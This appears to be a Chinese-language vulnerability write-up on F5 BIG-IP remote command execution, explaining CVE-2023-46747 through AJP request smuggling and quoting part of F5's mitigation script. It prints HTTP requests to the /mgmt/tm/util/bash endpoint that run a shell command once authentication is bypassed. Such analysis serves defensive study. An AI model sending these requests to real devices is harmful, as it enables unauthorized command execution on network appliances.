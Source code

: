 ```plain
POST /mgmt/shared/authn/login HTTP/1.1
Host: 100.100.100.100
X-F5-Auth-Token:
Connection: close
Content-type: application/json
Content-Length: 41

{"command":"run", "utilCmdArgs": "-c id"}
```

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: 100.100.100.100
X-F5-Auth-Token: LIKUTWQGCHMYXG2X3LGCUKHUU2
Connection: close
Content-type: application/json
Content-Length: 41

{"command":"run", "utilCmdArgs": "-c id"}
```

换句话说，只要能绕过登陆的鉴权或者拿到管理员账号，就能 RCE（远程命令执行）。

所以你就会发现，BIG-IP 的 RCE（远程命令执行）漏洞几乎都是围绕鉴权绕过产生的，无非是绕过的方法不同。

### Apache Httpd AJP 请求走私

我们总结后发现，CVE-2020-5902 是利用了 Tomcat 的特性进行绕过，CVE-2022-1388 是利用了请求头的逻辑进行绕过，经过网上披露的细节我们发现这次 CVE-2023-46747 的问题出现在了 Apache。

> AJP 服务全称 Apache JServ Protocol，是一个类似 HTTP 的二进制协议，数据包格式较为简单。AJP 协议的 请求数据包 Magic 为 `0x1234`，后面紧跟着 2 个字节的数据长度字段，再往后就是数据包的具体内容。[2](https://ricterz.me/posts/2022-03-03-a-new-attack-method-ajp-request-smuggling.txt "A New Attack Method: AJP Request Smuggling")

对于 AJP 协议的其他细节就不再进行赘述，可以参考 Apache Tomcat 的官方文档。[3](https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html "AJP Protocol Reference")

官方第一时间就给出了缓解脚本[4](https://my.f5.com/manage/s/article/K000137353 "K000137353: BIG-IP Configuration utility unauthenticated RCE CVE-2023-46747")，从缓解脚本发现很明显问题就出在了 AJP，联想到 AJP 请求走私的缓解措施就是设置 Apache Tomcat 的 AJP secret，那么很有可能这个漏洞就是通过 AJP 请求走私导致的权限绕过，从而导致 RCE。

```plain
#!/bin/sh
#
# Copyright © 2023, F5 Networks, Inc. All rights reserved.
#
# No part of this software may be reproduced or transmitted in any
# form or by any means, electronic or mechanical, for any purpose,
# without express written permission of F5 Networks, Inc.
#

proxy_ajp_conf="/config/httpd/conf.d/proxy_ajp.conf"
tomcat_conf="/etc/tomcat/server.xml"


# Backup original configuration files
if [ ! -f "${proxy_ajp_conf}.f5orig" ]; then
    cp "${proxy_ajp_conf}" "${proxy_ajp_conf}.f5orig"
fi
if [ ! -f "${tomcat_conf}.f5orig" ]; then
    cp "${tomcat_conf}" "${tomcat_conf}.f5orig"
fi

usage()
{
    echo "Usage: $0 [-h]|[-u][-r]"
    echo "This utility mitigates ID1378329 and restarts the apache and tomcat daemons."
```